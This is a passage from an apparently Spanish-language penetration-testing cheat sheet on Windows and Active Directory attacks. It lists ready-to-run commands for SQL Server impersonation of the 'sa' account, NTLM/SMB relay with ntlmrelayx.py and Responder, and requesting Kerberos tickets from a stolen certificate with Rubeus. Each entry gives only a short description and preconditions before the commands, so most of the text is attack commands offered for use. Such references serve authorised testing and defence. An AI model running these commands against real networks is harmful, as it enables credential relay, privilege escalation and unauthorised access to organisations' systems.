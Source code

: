 **Herramientas y comandos:**

- **Windows:**  
  - **SSMS:**  
    ```sql
    EXECUTE AS USER = 'sa';
    ```
- **Linux:**  
  - **Impacket/mssqlclient.py:**  
    ```sql
    EXECUTE AS USER = 'sa';  -- dentro de la shell interactiva
    ```

[Volver al índice](#índice-de-técnicas)

---

## 10. NTLM/SMB Relay

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Relay de autenticaciones NTLM capturadas para acceso con privilegios del usuario.       |
| **Condiciones** | SMB signing deshabilitado.                                                              |

**Herramientas y comandos:**

- **Linux:**  
  - **ntlmrelayx.py (Impacket):**  
    ```bash
    python3 ntlmrelayx.py -t smb://<target-IP>
    ```
  - **Responder:**  
    ```bash
    sudo responder -I <interface>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 11. Overpass-the-Certificate (Pass-the-Cert)

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Usa un certificado válido/exportable para solicitar TGT Kerberos.                       |
| **Condiciones** | Certificado válido exportable.                                                          |

**Herramientas y comandos:**

- **Windows:**  
  - **Rubeus:**  
    ```powershell
    Rubeus.exe asktgt /user:<user> /certificate:<.pfx> /password:<pfx_pass>
    ```
